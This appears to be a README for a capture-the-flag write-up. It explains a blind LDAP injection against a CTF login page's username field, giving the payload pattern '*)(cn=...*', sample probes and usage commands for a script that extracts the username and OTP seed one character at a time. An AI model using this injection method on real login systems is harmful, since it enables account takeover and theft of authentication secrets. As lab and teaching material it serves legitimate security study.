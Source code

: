 CTF's login page is vulnerable to Blind LDAP injection, specifically on the inputUsername parameter

The form takes in two parameters - a username, and a OTP

Our objective here was to:
1. First discover what the username is
2. Discover what the seed is from the OTP. This is based on a comment in the HTML specifying that the seed is stored in a LDAP attribute

We notice that the error message allows us to determine whether an attribute value exists or not
1. if we guess a incorrectly, the response will say "User <x> not found"
2. if we guess an attribute value correctly, then our message is blank, or will say, cannot login

The injection payload is: \*)(attribute=*

For example: 

Iteration 1:
*)(cn=a*  - this will result in a User <url encoded payload> not found" 
*)(cn=l*) - this will result in "cannot login"
 
Iteration 2:
*)(cn=la*) - this will result in User <url encoded payload> not found"
*)(cn=ld*) - this will result in cannot login
  
Our script here will iterate through a range (representing upper/lower/number characters), and examine the resulting response to determine the attribute value, 1 character/number at a time

To use:
./python3 blindLDAPInjector.py --sessionID <sessionID> -f <attribute file> -o <option number>
  
  where sessionID represents the phpsessionID value
  
  where attribute file represents a text file that contains a list of LDAP attributes
  cn.txt - ldap attributes representing where the username is probably stored
  common.txt - list of common ldap attributes
  
  where option number represents:
  1 - uppercase only
  2 - lowercase only
  3 - numbers only
  4 - lower and numbers
  5 - all three combined
  
  To find the username:
  ./python3 blindLDAPInjector.py --sessionID <sessionID> -f cn.txt -o 2
  
  To find the seed:
  ./python3 blindLDAPInjector.py --sessionID <sessionID> -f common.txt -o 3
 
 ![cn enum](images/cn-discovery.PNG?raw=true "Blind Injection - Enumeration of CN")

Loginscript.py 

-after logging in we get a message 
"User must be member of root or adm group and have a registered token to issue commands on this server"
-loginscript was created to make a call out to stoken to retrieve a pin and simplify the double encoding + pin on requests to try to test how to get to the next step
